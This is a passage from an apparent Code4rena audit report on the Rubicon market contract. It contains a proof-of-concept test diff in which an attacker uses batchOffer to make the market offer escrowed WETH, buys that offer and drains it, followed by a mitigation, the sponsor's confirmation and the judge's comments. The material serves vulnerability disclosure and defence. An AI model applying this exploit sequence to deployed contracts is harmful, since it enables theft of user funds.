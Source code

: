 ```diff
+
+    it("Attacker exploiting vulnerability and causing market to offer assets held in escrow", async function () {
+      await rubiconMarket.connect(attacker).batchOffer(
+        [marketWethStart],
+        [weth.address],
+        [1],
+        [attackerCoin.address]
+      );
+    });
+
+    it("Attacker taking offer", async function () {
+      let lastOfferId = await rubiconMarket.last_offer_id();
+      await attackerCoin.connect(attacker).approve(
+        rubiconMarket.address,
+        1
+      )
+      await rubiconMarket.connect(attacker).buy(
+        lastOfferId,
+        marketWethStart.mul(10000).div(9999)
+      );
+    });
+
+    it("rubiconMarket holds 0 WETH", async function () {
+      expect(await weth.balanceOf(rubiconMarket.address)).eq(0);
+    });
+
+    it("attacker holds 10 WETH", async function () {
+      expect(await weth.balanceOf(attacker.address)).eq(10n*10n**18n);
+    });
+  });
+
   describe("Protocol Tests", async function () {
     // *** Core ***
     describe("Rubicon Market", function () {
```

### Mitigation

Change `this.offer` to `offer`. As the `offer` function is currently `external`, it will have to be changed to `public`.

**[bghughes (Rubicon) confirmed](https://github.com/code-423n4/2023-04-rubicon-findings/issues/1052#issuecomment-1511506135)**

**[HickupHH3 (judge) commented](https://github.com/code-423n4/2023-04-rubicon-findings/issues/1052#issuecomment-1577820928):**
 > - Satisfactory: How funds can be drained for token implementations that skip approvals when `src` is `msg.sender` / `src` == `dest`.
> - 50%: Reverting txns from insufficient token approval.

***
